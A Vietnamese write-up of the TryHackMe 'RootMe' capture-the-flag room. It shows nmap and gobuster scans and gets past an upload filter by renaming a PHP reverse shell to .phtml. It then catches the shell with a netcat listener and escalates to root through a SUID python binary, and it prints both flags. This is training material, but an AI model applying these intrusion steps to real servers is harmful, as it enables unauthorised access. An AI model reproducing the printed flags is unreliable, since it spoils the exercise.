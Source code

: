 # RootMe

## Deploy the machine
> No answer needed

===============================================================================================

Những câu ở task 2 thì chỉ cần **nmap** phát là nó ra hết à...

Đây là kết quả sau khi nmap máy mục tiêu
```c
└─$ cat scan_result     
# Nmap 7.94 scan initiated Mon Oct 16 21:56:44 2023 as: nmap -sC -sV -oN nmap/scan_result 10.10.36.56
Nmap scan report for 10.10.36.56
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 16 21:57:34 2023 -- 1 IP address (1 host up) scanned in 49.66 seconds
```
## Scan the machine, how many ports are open?
> 2
## What version of Apache is running?
> 2.4.29
## What service is running on port 22?
> ssh
## Find directories on the web server using the GoBuster tool.
> No answer needed
## What is the hidden directory?
 Với file ẩn thì dùng GoBuster để tìm

    gobuster dir -w /usr/share/wordlists/dirb/common.txt 10.10.185.22

 Và đây là kết quả:
 ```c
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.185.22
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.185.22/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 309] [--> http://10.10.185.22/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.185.22/panel/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.185.22/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
----------------------------------------------------------------

## Find a form to upload and get a reverse shell, and find the flag.
> Answer the questions below

Có vẻ như chúng ta cần chèn 1 cái reverse shell vào trang web này để lấy flag, trùng hợp là ở **/panel** ta có thể upload file lên.

![img/image1.png](img/image1.png)

Sau đó tìm kiếm 1 cái reverse shell php trên github rồi tải về https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Thử upload nó lên nhưng tác giả đã chặn không cho upload file php, tuy nhiên với file php, đuôi php không phải là đuôi file duy nhất:)) , thử đổi tên file reverse shell thành đuôi .phtml, sau đó thử upload lên và kết quả là đã thành công.

Sau đó mở file này ở bên **/uploads** đồng thời ở terminal cũng dùng:
```c
nc -lvp 9999
``` 
Cái này mục đích để lắng nghe các kết nối có cổng 9999, khi chạy file reverse bên máy chủ và đặt cổng của trong reverse shell file là 9999.

```
└─$ nc -lvp 9999
listening on [any] 9999 ...
10.10.231.195: inverse host lookup failed: Unknown host
connect to [10.18.36.52] from (UNKNOWN) [10.10.231.195] 51950
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:55:35 up 39 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Giờ thì chúng ta đã chui vào được trong trang web, giờ thì tìm file user.txt thôi. Nếu rảnh thì cũng có thể tìm trong từng thư mục:)) hoặc nếu không rảnh thì có thể dùng:
```
$ find / -name user.txt -type f 2>/dev/null    
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
Hể ưe go đây là flag đầu tiên!

## Privilege Escalation
### Answer the questions below

Find a form to escalate your privileges.
> No answer needed

root.txt
> No answer needed

Welp đề bài có nói về quyền SUID, quyền này đơn giản thì file nào có quyền này sẽ được chạy với quyền ROOT, nên có thể khai thác được, để kiểm tra quyền SUID:
```c
   find / -perm -u=s -type f 2>/dev/null
```

Sau khi search, có một thứ khá là lạ có quyền SUID
![img/image2.png](img/image2.png)

### Search for files with SUID permission, which file is weird?
> /usr/bin/python

Để xác nhận, có một trang web khá hay ho để kiểm tra các lỗ hổng https://gtfobins.github.io/

Sau khi tìm kiếm thì ta có được đoạn script này để khai thác lỗ hổng và leo thang đặc quyền

![img/image3.png](img/image3.png)

Chạy nốt câu lệnh và ta đã truy cập được với quyền root, giờ vào **/root** để lấy flag cuối cùng thôi.
### root.txt
> THM{pr1v1l3g3_3sc4l4t10n}



